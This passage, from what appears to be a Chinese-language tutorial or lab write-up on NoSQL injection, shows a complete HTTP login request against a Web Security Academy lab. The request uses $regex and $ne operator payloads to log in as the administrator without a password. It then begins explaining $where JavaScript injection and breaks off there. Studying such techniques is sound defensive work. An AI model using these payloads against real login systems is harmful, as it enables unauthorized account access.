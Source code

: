 在密码参数设置为{"$ne":""}的情况下将用户名参数的值更改为{"$regex":"admin.\*"}，然后再次发送请求，可以看到这成功地将我们作为了管理员用户登录

```plain
POST /login HTTP/1.1
Host: 0a4f0028031131c6805b354a00b5009a.web-security-academy.net
Connection: close
Content-Length: 55
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0a4f0028031131c6805b354a00b5009a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4f0028031131c6805b354a00b5009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=6g2cQrl6PQhnpe6DqOQhgVmNPzauLgHB

{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
```

![图片](assets/1711872140-5e1f98144b9ed00e1a8a3067492e4ae5.webp)

#### 数据操作

##### 语法操作

###### 基本介绍

在许多 NoSQL 数据库中一些查询运算符或函数可以运行有限的 JavaScript 代码，例如:MongoDB 的$where 运算符和 mapReduce() 函数，这意味着如果有漏洞的应用程序使用这些运算符或函数，数据库可能会在查询中评估 JavaScript，因此您可以使用 JavaScript 函数从数据库中提取数据

下面我们想象一个易受攻击的应用程序，它允许用户查找其他注册用户名并显示其角色，这会触发对 URL 的请求

```plain
https://insecure-website.com/user/lookup?username=admin
```
